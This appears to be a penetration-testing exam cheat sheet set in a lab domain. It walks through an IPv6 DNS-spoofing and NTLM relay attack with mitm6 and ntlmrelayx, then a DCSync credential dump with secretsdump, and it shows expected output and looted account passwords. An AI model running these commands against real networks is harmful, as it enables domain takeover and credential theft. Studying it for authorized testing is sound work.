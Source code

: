 ```yaml
---

# 🔐 **IPv6 Attack Relay Cheat Sheet**

---
```


# 📋 **Summary**

This attack exploits **IPv6** within a network using `mitm6` to spoof a DNS server and trick the "Punisher" machine into thinking the attacker’s machine is a legitimate network resource during its network discovery phase. The "Punisher" machine then sends its **NTLM authentication** to the spoofed resource (`fakewpad.marvel.local`).

**`ntlmrelayx.py`** captures these credentials and **relays** them to the **real domain controller** (`192.168.164.138`) to authenticate and execute actions, such as creating a new user with elevated privileges. The **goal** is to compromise the **domain controller** using the relayed credentials, not a fake one.

All captured information and actions performed on the domain controller are stored in the specified **lootme** folder for further analysis and exploitation. This can include using tools like **DCSync** to extract domain secrets.

📝 **Step-by-Step**:

- **Capture**: The "Punisher" sends **NTLM credentials** during its network discovery phase, which are intercepted by `mitm6` and `ntlmrelayx.py`.
- **Relay**: `ntlmrelayx.py` relays these credentials to the **domain controller** (`ldaps://192.168.164.138`).
- **Domain Response**: If the domain controller accepts the credentials, it allows actions like creating new users or retrieving sensitive data.
- **Storing Data**: All captured information is saved in the **lootme** folder for later use.

💡 **Key Points**:

- "Fakewpad" is used to **capture credentials**, but the ultimate target is the **real domain controller**.
- The **lootme** folder is the storage location for all data obtained during the attack, including credentials, user information, and domain secrets.

---

---

### 🛠️ **Detailed Notes**:

### **1. Setup NTLM Relay**:

- **Command**:
    
    ```bash
    ntlmrelayx.py -6 -t ldaps://192.168.164.138 -wh fakewpad.marvel.local -l lootme
    
    ```
    
    - **Explanation**:
        - Sets up NTLM relay targeting the **LDAPS** server.
        - The `wh` flag spoofs the Web Proxy Auto-Discovery (WPAD).
    
    💡 **Tip**: Always check your **target IP address** and ensure it's correct for the domain controller.
    

---

### **2. Start MITM Attack (Separate Tab)**:

- **Command**:
    
    ```bash
    sudo mitm6 -d marvel.local
    
    ```
    
    - **Explanation**:
        - Initiates the **Man-In-The-Middle (MITM)** attack by spoofing DNS for the `marvel.local` domain.
        - Redirects victim’s traffic to your machine.
    
    💡 **Tip**: Run this in a separate terminal tab to avoid conflicts with `ntlmrelayx`.
    

🚨 **Critical Mention**: Be aware that **IPv6 must be enabled** on the network for this to work. Many networks have IPv6 turned on by default, even if they primarily use IPv4.

---

### **3. Monitor Traffic and Capture Credentials**:

- **Expected Output** (from `ntlmrelayx`):
    
    ```
    [*] Authenticating against ldaps://192.168.164.138 as MARVEL\\THEPUNISHER$ SUCCEED
    [*] Attempting to create user in: CN=Users,DC=MARVEL,DC=local
    [*] Adding new user with username: AcTeunrGXt and password: MZk}:cjr-Apd@UJ result: OK
    
    ```
    
    - **Explanation**:
        - The relay captures credentials from a logged-in domain user (e.g., `THEPUNISHER`).
        - Successfully creates a new domain user with admin privileges.

🚨 **Critical Mention**: **Authentication Success** here is crucial. If you don’t see the success message, recheck your setup.

---

### **4. Verify New Domain User**:

- **Navigate**:
    - `Server Manager -> Active Directory Users and Computers -> MARVEL.local -> Users`
    - **Look for user**: `AcTeunrGXt`
    
    💡 **Tip**: The user will have **Enterprise Admin** privileges but may not show up as a **Domain Admin**.
    

---

### **5. Run DCSync to Dump Domain Secrets**:

- **Command**:
    
    ```bash
    secretsdump.py marvel/AcTeunrGXt:MZk}:cjr-Apd@UJ@192.168.164.138
    
    ```
    
    - **Explanation**:
        - Uses the newly created user to run **DCSync**, which dumps sensitive credentials from the domain controller.

🚨 **Critical Mention**: Ensure you use the **correct username and password** generated earlier.

---

### 📖 **Abbreviations & Definitions**:

- **NTLM Relay**: A technique where captured NTLM authentication requests are relayed to another machine, allowing unauthorized access.
- **mitm6**: A tool for conducting IPv6 **Man-In-The-Middle (MITM)** attacks by spoofing DNS responses.
- **LDAPS**: **LDAP** (Lightweight Directory Access Protocol) over SSL/TLS, used for secure directory services communication.
- **DCSync**: An attack that allows a compromised user to simulate domain controller behavior and extract sensitive data, like password hashes.
- **SUID**: Set User ID, which allows a program to run with the permissions of its owner.
- **WPAD**: **Web Proxy Auto-Discovery Protocol**, used by browsers to locate proxy configuration files automatically.

---

### 🚨 **Critical Mentions & Exam Traps**:

- **⚠️ IPv6 must be enabled**: Ensure that **IPv6 is enabled** on the network. Without it, the attack won't work.
- **📝 Use separate tabs**: Always run `ntlmrelayx` and `mitm6` in separate tabs to avoid command conflicts.
- **💡 Use `DCSync` after user creation**: You don’t need to be a Domain Admin—**Enterprise Admin** is enough to run `DCSync` and dump credentials.

---

### 📌 **Potential Pitfalls**:

1. **Target Misconfiguration**:
    - Ensure you’re targeting the correct **LDAPS** server. If `ldaps://192.168.164.138` is incorrect, the relay will fail.
2. **Output Confusion**:
    - If the output does not show **authentication success**, it’s important to check your IP settings, domain configuration, and ensure that traffic is correctly routed through the MITM setup.
3. **Failure to Spoof DNS**:
    - Ensure that **mitm6** successfully spoofs DNS replies. Incorrect spoofing can break the relay attack.

---

### 💡 **Quick Tips for the Exam**:

- **Check for `Success!` in ntlmrelayx**: If you don’t see this, the attack has failed.
- **Look for Enterprise Admin Privileges**: Remember, even if the new user isn’t a Domain Admin, **Enterprise Admin** is enough to compromise the domain.
- **Make sure `mitm6` is running in a separate tab**: Running it in the same tab as `ntlmrelayx` will cause conflicts, making the attack fail.

---

---

### 📂 **Loot Information: domain_users_by_group.html**

- **Location**: `lootme/domain_users_by_group.html`
- **Importance**: This file contains key information about **domain users and groups**, including:
    - **Administrators** and **Enterprise Admins**
    - Account details like **name**, **SAM name**, **creation date**, and **passwords**

### **Notable Entries**:

- **SQL Service**:
    - **SAM Name**: `SQLService`
    - **Password**: `MYpassword123#`
    - **Flags**: `DONT_EXPIRE_PASSWD`, `NORMAL_ACCOUNT`
    - **Groups**: Domain Admins, Enterprise Admins, Schema Admins
- **Tony Stark**:
    - **SAM Name**: `tstark`
    - **Groups**: Domain Admins, Enterprise Admins
- **Administrator**:
    - **SAM Name**: `Administrator`
    - **Password**: Not listed, but key for domain administration.

---

💡 **Usage**:

- Use the **passwords and privileges** found in this file to further escalate access or perform post-exploitation activities, such as using the SQL Service account (`SQLService` with password `MYpassword123#`) to access sensitive areas of the network.

🚨 **Critical Mention**: This file is crucial for identifying which users have **admin-level** access, and any associated passwords can help in maintaining persistent access or moving laterally within the network.

---